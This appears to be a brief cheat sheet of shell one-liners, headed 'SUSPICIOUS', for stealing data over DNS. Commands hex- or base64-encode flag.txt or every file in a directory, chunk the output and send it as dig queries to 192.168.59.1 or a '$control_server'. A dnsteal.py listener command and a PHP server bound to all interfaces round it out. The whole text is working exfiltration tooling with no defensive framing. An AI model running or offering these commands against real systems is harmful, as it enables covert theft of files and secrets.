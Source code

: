 # SUSPICIOUS



for b in $(xxd -p flag.txt); do dig @192.168.59.1 $b.filename.com; done

```bash

for f in $(ls .); do s=40;b=500;c=0; for r in $(for i in $(gzip -c $f | base64 -w0 | sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s" ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do dig @$control_server `echo -ne $r$f|tr "+" "*"` +short; done; done

for f in $(ls .); do s=40;b=500;c=0; for r in $(for i in $(gzip -c $f | base64 -w0 | sed "s/.\{$b\}/&\n/g");do if [[ $c -lt $s ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do echo -ne $r$f|tr "+" "*"; done; done

for f in $(ls . -a); do s=4;b=40;c=0; for r in $(for i in $(base64 -w0 $f | sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i."; c=$(($c+1)); else echo -ne "\n$i."; c=1; fi; done ); do dig @192.168.59.1 `echo -ne $r$f|tr "+" "*"|tr ".." "."` +short; done ; done
```

sudo python dnsteal.py 192.168.59.1 -z -s 4 -b 40 -f 3

sudo php -S 0.0.0.0:80